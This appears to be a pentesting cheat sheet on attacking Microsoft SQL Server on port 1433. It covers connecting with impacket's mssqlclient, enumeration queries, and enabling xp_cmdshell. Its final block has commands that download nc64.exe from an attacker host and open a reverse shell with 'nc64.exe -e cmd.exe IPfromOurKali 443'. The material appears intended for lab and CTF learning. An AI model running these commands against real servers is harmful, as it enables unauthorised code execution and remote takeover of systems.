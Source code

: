```yaml
---
title: 1433 msSQL
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting,windows,impacket
---
```


# 1433 msSQL

## Connect to a remote Microsoft SQL database

For that, we can use a package such as [impacket](impacket.md) and, specifically, the module mssqlclient.py module that you can find in the folder examples:

```bash
python3 mssqlclient.py username:password@targetIP -windows-auth
# With python3 mssqlclient.py help you can see more options.
```

## Basic commands

```
# Get Microsoft SQL server version
select @@version;

# Get usernames
select user_name();

# Get databases
SELECT name FROM master.dbo.sysdatabases;

# Get current database
SELECT DB_NAME();

# Get a list of users in the domain
SELECT name FROM master..syslogins

# Get a list of users that are sysadmins
 SELECT name FROM master..syslogins WHERE sysadmin = 1;

# And to make sure: 
SELECT is_srvrolemember(‘sysadmin’); 
# If your user is admin, it will return 1.
```

## Executing cmd shell in a SQL command line

Our goal can be to spawn a Windows command shell and pass in a string for execution. For that Microsoft SQL syntaxis has the command **xp_cmdshell**, that will allow us to use the SQL command line as a CLI. 

Because malicious users sometimes attempt to elevate their privileges by using xp_cmdshell, xp_cmdshell is disabled by default. But we can use sp_configure or Policy Based Management to enable it. 

**sp_configure** displays or changes global configuration settings for the current settings. This is how you may take advantage of it:

```msSQL
# To allow advanced options to be changed.   
EXECUTE sp_configure 'show advanced options', 1;  
  
# To update the currently configured value for advanced options.  
RECONFIGURE;  

# To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;  
  
# To update the currently configured value for this feature.  
RECONFIGURE;  
```

Now we can use the msSQL terminal to execute commands:

```msSQL
# This will return the .exe files existing in the current directory
EXEC xp_cmdshell 'dir *.exe';

# To print a file
EXECUTE xp_cmdshell 'type c:\Users\sql_svc\Desktop\user.txt

# With this (and a "python3 -m http.server 80" from our kali serving a file) we can upload a file to the attacked machine, for instance a reverse shell like nc64.exe
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe";

# We could also bind this cmd.exe through the nc to our listener. For that open a different tab in kali and do a "nc -lnvp 443". When launching the reverse shell, we'll get a powershell terminal in this tab by running:
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe IPfromOurKali 443";
# You could also upload winPEAS and run it from this powershell command line
```


## Sources and resources

+ [Impacket](impacket.md): mssqlclient.py.  
+ [Pentesmonkey Cheat sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet).
+ [book.hacktricks.xyz](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).
+ [winPEAS](winpeas.md).



